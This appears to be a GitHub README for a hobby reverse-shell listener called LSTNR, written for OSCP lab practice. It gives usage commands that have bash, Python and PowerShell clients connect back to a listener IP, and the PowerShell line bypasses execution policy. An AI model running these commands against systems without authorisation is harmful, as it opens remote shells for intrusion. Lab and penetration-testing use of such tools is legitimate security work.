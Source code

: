 # LSTNR
Python server that receives shell connections from remote devices. 

Remote devices can be managed from a Command Line Interface (CLI)

<img width="666" alt="Screenshot 2025-01-03 at 6 36 01 PM" src="https://github.com/user-attachments/assets/9f1a5adb-3981-42cb-9855-3d847ec16c53" />

# DISCLAIMER
This is only for testing purposes, not intended for anything illegal. I was testing out ways to manage multiple connections while doing the OSCP labs. #Hobbies

# Download LSTNR

```git clone github.com/bwithe/LSNTR```

# USAGE

1. Start LSTNR
    - `python3 lstnr.py -p <PORT_TO_LISTEN>`

2. Have CLIENT connect to LSTNR
    - Linux / MacOS
      - `bash client.sh -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
      - `python3 client.py -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
     
    - Windows
        - `powershell -ep bypass .\client.ps1 -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`

# Screenshot examples:

<img width="702" alt="Screenshot 2025-01-04 at 10 49 03 PM" src="https://github.com/user-attachments/assets/c3027a17-1340-4f64-ac6c-776046003fd9" />

<img width="722" alt="Screenshot 2025-01-04 at 10 48 47 PM" src="https://github.com/user-attachments/assets/4725cf8a-4ab0-47b7-9d36-acf0e5256f99" />

